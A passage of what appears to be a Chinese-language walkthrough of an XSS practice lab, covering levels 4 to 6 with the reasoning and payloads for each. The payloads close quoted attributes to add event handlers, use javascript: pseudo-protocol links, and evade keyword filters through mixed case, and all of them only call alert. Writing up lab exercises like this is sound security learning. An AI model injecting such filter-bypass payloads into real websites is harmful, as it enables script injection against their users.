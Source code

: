 #### 考点：< 被转义了，双引号闭合

#### 思考：

类似于level-3，但这里需要双引号闭合，构造事件

**payload：**

```
" onmouseover=alert(/2333/)//	//需要鼠标划过输入框
" onclick=alert(/2333/)//		//需要鼠标点击输入框
```



### level-5

#### 考点：javascript:伪协议

#### 思考：

没有过滤尖括号<>，所以这里使用**javascript:伪协议**来构造

**payload：**

```
"><a href=javascript:alert(/2333/)>		//点击即可
"><a href="javascript:alert(/2333/)">xxxxx</a>		//点击即可

"><iframe src=javascript:alert(/2333/)>		//可以使用，但是无法继续
```



### level-6

#### 考点：闭合，大小写绕过

#### 思考：

script、on、src、data、href 等字符会被替换，但大小写没有约束

**payload：**

```
"> <Script>alert(/2333/)</script> 

"> <img Src=1 OnError=alert(/2333/)>

"><a HrEf="javascript:alert(/2333/)">xxxxx</a>

" Onmouseover=alert(/2333/)//	//需要鼠标划过输入框
" Onclick=alert(/2333/)//		//需要鼠标点击输入框
```



### level-7
